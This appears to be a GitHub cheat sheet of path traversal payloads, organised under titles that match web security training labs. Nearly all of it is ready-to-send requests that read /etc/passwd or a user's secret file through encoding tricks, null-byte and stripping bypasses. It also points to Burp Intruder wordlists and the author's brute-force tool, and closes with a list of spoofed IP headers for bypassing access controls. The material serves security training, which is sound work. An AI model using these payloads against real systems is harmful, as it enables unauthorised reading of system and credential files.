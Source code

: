 ## Use Burp Intruder and its worlist:

![sd](https://github.com/user-attachments/assets/deb9b141-a5d1-45f9-ae02-1a572947ca1b)

## File path traversal, traversal sequences blocked with absolute path bypass

```
/image?filename=/etc/passwd
```

## File path traversal, traversal sequences stripped non-recursively

```
/image?filename=..././..././..././etc/passwd
```

## File path traversal, traversal sequences stripped with superfluous URL-decode

```
%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```

## File path traversal, validation of start of path

```
/image?filename=/var/www/images/../../../../etc/passwd
```

## File path traversal, validation of file extension with null byte bypass

```
../../../../../../etc/passwd%00.jpg
```

## Encoded

```
/image?filename=%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%38%25%36%66%25%36%64%25%36%35%25%32%66%25%36%33%25%36%31%25%37%32%25%36%63%25%36%66%25%37%33%25%32%66%25%37%33%25%36%35%25%36%33%25%37%32%25%36%35%25%37%34
```

## Use my program for path traversal bruteforce

## Path Traversal Bypasses

    Adding Headers in request with value 127.0.0.1 or localhost can also help in bypassing restrictions.

```
X-Custom-IP-Authorization: 127.0.0.1
X-Forwarded-For: localhost
X-Forward-For: localhost
X-Remote-IP: localhost
X-Client-IP: localhost
X-Real-IP: localhost
```
```
X-Originating-IP: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
```
